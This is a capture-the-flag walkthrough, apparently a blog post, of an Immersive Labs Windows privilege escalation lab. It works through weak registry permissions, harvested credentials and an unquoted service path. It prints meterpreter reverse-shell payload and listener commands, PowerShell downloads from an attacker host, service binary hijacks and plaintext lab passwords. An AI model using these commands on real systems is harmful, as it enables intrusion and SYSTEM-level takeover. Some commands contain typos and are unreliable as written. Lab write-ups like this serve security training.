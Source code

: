 ```yaml
---
date: 2025-01-19
categories: [CTF, ImmersiveLabs]
title: "IML - Privilege Escalation: Windows – Demonstrate Your Skills"
tags: ['privilege escalation', 'rce', 'reverse shell', 'windows', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Privilege Escalation Windows - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Privilege Escalation: Windows – Demonstrate Your Skills


![image1](../resources/7a304a995386414aa0eeb7ca971bdfce.png)

```bash
xfreerdp /v:10.102.88.102 /u:teddy /p:burger /dynamic-resolution

```
**<u>Weak Registry Permissions</u>**

- Upload WinPEAS

Found:


![image2](../resources/de764fd4ad864270841fa567ae1509dc.png)


![image3](../resources/845fed01b4384d938ef0489ab71d375c.png)

- Can also check manullay with:
Upload accesschk64.exe

```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/accesschk64.exe',' C:\Users\teddy\accesschk64.exe')
.\accesschk64.exe #Run this first and agree to the terms
.\accesschk64.exe -kw hklm\System\CurrentControlSet\Services | Select-String -Pattern "teddy" -Context 1,3

```

![image4](../resources/01a177b5a2704990a3362fa35c2629b8.png)

```bash
reg query HKLM\system\currentcontrolset\services\InstallerService /s /v imagepath

```

![image5](../resources/9f921983d65e4456bf900f039f266305.png)

```bash
Get-Acl -Path HKLM:system\currentcontrolset\services\InstallerService | format-list

```

![image6](../resources/29dc29ab4de04e319c662bd0ad53f96d.png)

```bash
$acl = get-acl HKLM:system\currentcontrolset\services\InstallerService

ConvertFrom-SddlString -Sddl $acl.Sddl | Foreach-Object {$_.DiscretionaryAcl}

```

![image7](../resources/e693a609ebc8468e93c025fcde5ca396.png)

- Create payload
  
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.102.155.66 LPORT=4445 -f exe -o reverse.exe

```
- Set up listener
  
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost 10.102.155.66; set lport 4445; exploit"

```
- Copy reverse payload over:
  
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/reverse.exe',' C:\Users\teddy\reverse.exe')

```
- Modifying The Registry "InstallerService"

We will now modify the ImagePath value for the InstallerService registry and set it as the path of the custom executable "reverse.exe"

```bash
reg add "HKLM\system\currentcontrolset\services\InstallerService" /t REG_EXPAND_SZ /v ImagePath /d C:\Users\teddy\reverse.exe" /f

```

![image8](../resources/ff5f4374191842878cdde90475b9b0a4.png)

```bash
whoami /all

```

![image9](../resources/363deb1fbd6a450db6630a5640c756bd.png)

User has the **SeShutdownPrivilege** - So we can restart the machine, which will restart the service:

```bash
shutdown /r /t 0

```
Got SYSTEM shell


![image10](../resources/32f3b39d7e4c438bab3c9f6a7ba146ef.png)

- More stable shell:
  
```bash
ps

migrate <ps number>

```

![image11](../resources/e8f949c517354612b93061fa2bb65d1a.png)


![image12](../resources/18f4c639c9f44123b8dfa8ff45f14238.png)

**DefaultUserAccount : U8WXLhuAVQs25f7R**

**<u>Stolen Credentials</u>**


![image13](../resources/b066c87be9984451807c42b606df997a.png)

```bash
xfreerdp /v:10.102.188.254 /u:DefaultUserAccount /p:U8WXLhuAVQs25f7R /dynamic-resolution

```
- Upload WinPEAS:
  
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/winPEAS.exe',' C:\Users\DefaultUserAccount\winPEAS.exe')

```

![image14](../resources/8e0cd5a5855a4e5688341e804a62574d.png)


![image15](../resources/71f674f6c0cb4476a7d3f1c2215ed1b1.png)


![image16](../resources/1916f8cd44f8436280b1a47c8b6776cc.png)

- We can read files from svcSetup:

C:\Users\svcSetup\My Documents\Shared Documents\Development\ChangePassword\credentials\pass

C:\Users\svcSetup\My Documents\Shared Documents\Development\ChangePassword\credentials\user

- Base64 decode the files:
  
```bash
echo "c3ZjU2V0dXA=" | base64 -d

echo "U2V0dXAtQWNjb3VudC1QYXNzd29yZC0x" | base64 -d

```

![image17](../resources/987673429cbb4a72afb0cbe186fadfb5.png)

**svcsetup : Setup-Account-Password-1**

- Run cmd as admin - More choices

![image18](../resources/49119e8dc6214447a47755e7a50f386b.png)


![image19](../resources/4aad4d87a441411c8939bc62ca2cbf1c.png)

**rudy : m9R4pvrRjgFk**

**<u>Unquoted Service Path</u>**


![image20](../resources/f507169bc8e04cc4a6871e7637849d03.png)

```bash
xfreerdp /v:10.102.131.27 /u:rudy /p:m9R4pvrRjgFk /dynamic-resolution

```
- Upload WinPEAS:
  
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/winPEAS.exe',' C:\Users\rudy\winPEAS.exe')

```

![image21](../resources/636a6a6d1b734248bae0d3f1296058fd.png)

NewUpdaterService(NewUpdaterService)\[**C:\Program Files\Dev Builds\New Updater Service\Automatic Updater.exe**\] - Auto - Running - isDotNet - No quotes and Space detected

File Permissions: rudy \[AllAccess\]


Possible DLL Hijacking in binary folder: **C:\Program Files\Dev Builds\New Updater Service** (rudy \[AllAccess\])

- Manually Check for Services:
  
```bash
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where { $_.PathName -notlike "C:\Windows\*" } | select Name,DisplayName,StartMode,PathName

```

![image22](../resources/06cc989c0b3e4f4ca7e7e5ec48464c53.png)

- Enumerate the system architecture before uploading tools:
  
```bash
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"

```

![image23](../resources/ae5e9cbce60f459b9b4b4fe3aa048d34.png)

- Upload accesschk
  
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/accesschk64.exe',' C:\Users\rudy\accesschk64.exe')

```
- With accesschk on the system, we want to enumerate the permissions on the service folder:

```bash
.\accesschk64.exe -wvud "C:\Program Files\Dev Builds\New Updater Service" -accepteula

```

![image24](../resources/6cc1cebb05724c189bfc86c191c16af6.png)

Rudy has FILE_ALL_ACCESS on this folder

- Create payload
  
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.102.155.66 LPORT=5555-f exe -o "Automatic Updater.exe"

```
- Set up listener
  
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost 10.102.155.66; set lport 5555; exploit"

```
- Upload reverse shell
  
```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.155.66:8080/"Automatic Updater.exe"',' C:\Users\rudy\\Automatic Updater.exe"')

```
- Rename the original
  
```bash
mv C:\Program Files\Dev Builds\New Updater Service\Automatic Updater.exe C:\Program Files\Dev Builds\New Updater Service\Automatic.bak

```
- Move the malicious file into the original folder
  
```bash
mv ".\Automatic Updater.exe" "C:\Program Files\Dev Builds\New Updater Service"
```

```bash
shutdown /r /t 0 #Because we have the SeShutdown Privilege
```

Got shell

![image25](../resources/60a056233748485a912c1e04cfa98ab2.png)

- More stable shell:
  
```bash
ps

migrate <ps number>
```

![image26](../resources/213cd56da6394d239272c9225e743d06.png)
